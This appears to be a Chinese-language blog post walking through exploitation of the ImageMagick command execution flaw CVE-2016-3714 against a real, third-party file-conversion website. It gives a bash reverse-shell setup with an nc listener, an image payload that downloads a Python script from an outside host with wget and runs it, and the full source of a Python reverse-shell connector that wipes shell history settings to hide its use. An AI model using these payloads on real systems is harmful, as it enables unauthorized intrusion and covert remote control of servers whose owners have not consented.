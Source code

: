 ```yaml
---
layout: post
title: CVE-2016-3714 ImageMagick 命令执行漏洞复现
comments: false
description: ""
keywords: "Vulnerability"
---
```


前一段时间爆出ImageMagick的漏洞，当时一直尝试在wordpress上复现，乌云社区上也试了许多白帽子在三个白帽里创建的wp环境，也试了自己这个博客，通通不行。

今天看社区有大牛发了个站点，感觉挺牛逼的一个站点，就复现一下；

站点是一个号称是全世界最大的文档格式转换站点：

![20160601231727.jpg](/assets/images/2016-06-01/2094441928.jpg)

漏洞细节网上很多；

大致意思就是图片内容是远程执行代码，上传图片即执行！

1、这里先用bash反弹吧；

![20160601231311.jpg](/assets/images/2016-06-01/3825029776.jpg)

```
第一个框：bash
第二个框：你的外网主机ip
第三个框：将流量转发到你主机的端口号，用于监听
```

2、外网主机设置监听，怎么监听方式都可以，我也就用最大众的nc吧；

```
nc -l 2222   
```

3、在网站上找到一个上传JPG格式的上传点(PNG也是一样)：

![20160601231319.jpg](/assets/images/2016-06-01/1062915562.jpg)

直接Add图片，然后Start上传，等待一会；

shell就反弹回来了；

![20160601231638.jpg](/assets/images/2016-06-01/1930833323.jpg)

除了bash还是有其他的方法的，因为这毕竟只是弹出来shell；

如果是使用PY脚本（前提服务器需要支持python）：

这是监听的脚本传到你网站的根目录，比如：http://www.baidu.com/x.py

然后POC：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|wget http://xxxxxx/x.py -O /tmp/x.py && python /tmp/x.py xxxxxxxx 2222")'
pop graphic-context
```
这个脚本网上很多，反应强烈的乌云社区的back.py；

![20160601234427.jpg](/assets/images/2016-06-01/3558033748.jpg)

但网站限制，不能放这个脚本，我就源码打出来吧：

```
# -*- coding:utf-8 -*-
#!/usr/bin/env python
"""
back connect py version,only linux have pty module
code by google security team
"""
import sys,os,socket,pty
shell = "/bin/sh"
def usage(name):
	print 'python reverse connector'
	print 'usage: %s &lt;ip_addr&gt; &lt;port&gt;' % name

def main():
	if len(sys.argv) !=3:
	usage(sys.argv[0])
	sys.exit()
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	try:
		s.connect((sys.argv[1],int(sys.argv[2])))
		print 'connect ok'
	except:
		print 'connect faild'
	sys.exit()
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	global shell
	os.unsetenv("HISTFILE")
	os.unsetenv("HISTFILESIZE")
	os.unsetenv("HISTSIZE")
	os.unsetenv("HISTORY")
	os.unsetenv("HISTSAVE")
	os.unsetenv("HISTZONE")
	os.unsetenv("HISTLOG")
	os.unsetenv("HISTCMD")
	os.putenv("HISTFILE",'/dev/null')
	os.putenv("HISTSIZE",'0')
	os.putenv("HISTFILESIZE",'0')
	pty.spawn(shell)
	s.close()

if __name__ == '__main__':
	main()
```
现在这个洞在wp还是很普遍的，我的博客阿里还一直发邮件说存在ImageMagick命令执行高危漏洞，需不需要阿里安骑士来自动修复（花钱的）...
